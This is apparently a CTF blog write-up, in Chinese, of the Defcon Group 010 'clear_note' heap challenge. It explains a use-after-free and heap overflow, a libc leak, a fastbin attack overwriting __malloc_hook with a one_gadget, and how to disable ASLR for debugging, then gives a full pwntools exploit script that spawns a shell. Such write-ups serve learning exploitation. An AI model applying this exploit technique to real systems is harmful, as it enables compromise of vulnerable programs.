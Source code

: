 ```yaml
---
title: dg010赛题复现
date: 2018-09-09 08:37:40
tags: [CTF, PWN]
categories: Defcon_Group_010
---
```

# dg010赛题复现

师傅去打dg010去了，扔给我一道题让我做，无奈当时恰好要去上课，做到一半就扔那儿了，现在有时间了，就做了一下。
<!--more-->  
首先打开ida看下发现偏移是相对文件的，所以肯定是开启了pie，之后看函数，主要是dele和add里，dele中没有立即对chukList中的ptr清零导致会出现野指针，还有就是add函数中使用的是scanf进行输入，没有对输入长度进行检测，所以存在堆溢出。  
分析完两个主要的漏洞接下来思考解题策略，开启了pie我们可以通过unsorted bin泄露，得到libc，checksec看了一下发现保护全开，由于保护全开，所以无法进行got覆写之类的，这里考虑mallocHook或者freeHook的覆写，freeHook看了下发现在内存中周边没有合适的size绕过fastbin检查，而mallocHook恰好在ptr-0x13的位置是有合适的size的(低字节0x7f)，如果add的是0x60的fast chunk，那么条件是符合的，所以这里可以用the house of spirit进行mallocHook写oneGadget，就可以利用成功了。  
这道题的坑点在于开启pie的程序调试的时候不方便，因为代码段是随机化的，break断点不固定，需要手动去断点比较烦。这里要解决这个问题目前我知道的有两种方法，第一种是队友诉我的，通过关闭本地系统的内存地址随机化保护进行调试。echo 0  >/proc/sys/kernel/randomize_va_space 这样的话就能暂时关闭随机化，默认镜像的加载基址是0x555555554000，但是由于ida中显示的指令是相对文件的基址，所以想要下断的话还是需要进行一定的计算，这里队友告诉我可以通过ida中修改segment段的基址，也就是自己制定段加载基址来确定text指令段的内存地址。试了一下还是相当方便的。以后本地调试的时候可以利用这种方法，非常方便。  
还有一种方法就是通过在脚本中加入一些函数通过查找proc中的相关地址来得到加载地址，也行，不过感觉有一点麻烦，不过调试的时候更加真实吧233333，各有利弊。 

```
from pwn import *
p=process('./clear_note')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p,'''
#	break *0x0000555555554E9A 
#	continue
#''')
def add(size,data):
    p.recvuntil("choice>> ")
    p.sendline('1')
    p.recvuntil("size: ")
    p.sendline(str(size))
    p.recvuntil("info: ")
    p.send(data)
    p.sendline('\n')

def show(idx):
    p.recvuntil("choice>> ")
    p.sendline('2')
    p.recvuntil("ndex: ")
    p.sendline(str(idx))
    p.recvuntil('info: ')

def dele(idx):
    p.recvuntil("choice>> ")
    p.sendline('3')
    p.recvuntil("index: ")
    p.sendline(str(idx))

add(0x100,'a')
add(0x60,'b')
dele(0)
show(0)
arena=u64(p.recv(6).ljust(8,'\x00'))
libc.address=arena-0x3c4b78
log.info('libcBase > '+hex(libc.address))
mallocHook=libc.symbols['__malloc_hook']
log.info('__malloc_hook > '+hex(mallocHook))
#oneGadget=libc.address+0x45216
oneGadget=libc.address+0xf1147
#oneGadget=libc.address+0x4526a
#oneGadget=libc.address+0xf02a4
writeAddress=mallocHook-0x13


dele(1)
dele(0)
dele(1)

add(0x100,'a'*0x100+p64(0)+p64(0x71)+p64(writeAddress))
add(0x60,'b')
dele(0)
dele(0)
dele(1)
dele(1)
add(0x60,'c'*3+p64(oneGadget))
p.recvuntil("choice>> ")
p.sendline('1')
p.recvuntil("size: ")
p.sendline('10')
p.interactive()
```



